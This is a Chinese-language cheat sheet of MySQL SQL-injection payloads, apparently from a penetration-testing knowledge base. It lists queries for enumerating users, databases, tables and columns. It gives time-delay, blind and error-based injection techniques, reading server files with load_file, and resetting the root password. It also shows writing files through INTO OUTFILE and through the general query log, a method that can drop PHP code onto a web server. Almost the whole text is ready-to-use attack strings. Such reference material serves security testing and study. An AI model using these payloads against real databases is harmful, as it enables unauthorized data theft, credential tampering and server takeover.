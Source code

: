 MySQL Payload
========================================

常见Payload
----------------------------------------
- Version 
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT 1 # comment``
    - ``SELECT /*comment*/1``
- Space
    - ``0x9`` ``0xa-0xd`` ``0x20`` ``0xa0``
- Current User
    - ``SELECT user()``
    - ``SELECT system_user()``
- List User
    - ``SELECT user FROM mysql.user``
- Current Database
    - ``SELECT database()``
- List Database
    - ``SELECT schema_name FROM information_schema.schemata``
- List Tables
    - ``SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- List Columns
    - ``SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- If
    - ``SELECT if(1=1,'foo','bar');`` return 'foo'
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT 0x414243`` => return ``ABC``
- Delay
    - ``sleep(1)``
    - ``SELECT BENCHMARK(1000000,MD5('A'))``
- Read File
    - ``select @@datadir``
    - ``select load_file('databasename/tablename.MYD')``
- Blind
    - ``ascii(substring(str,pos,length)) & 32 = 1``
- Error Based
    - ``select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;``
- Change Password
    - ``mysql -uroot -e "use mysql;UPDATE user SET password=PASSWORD('newpassword') WHERE user='root';FLUSH PRIVILEGES;"``

写文件
----------------------------------------

写文件前提
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- root 权限
- 知晓文件绝对路径
- 写入的路径存在写入权限
- secure_file_priv 允许向对应位置写入

基于 into 写文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql

    union select 1,1,1 into outfile '/tmp/demo.txt'
    union select 1,1,1 into dumpfile '/tmp/demo.txt'

dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏

基于 log 写文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql

    show variables like '%general%';
    set global general_log = on;
    set global general_log_file = '/path/to/file';
    select '<?php var_dump("test");?>';
    set global general_log_file = '/original/path';
    set global general_log = off;
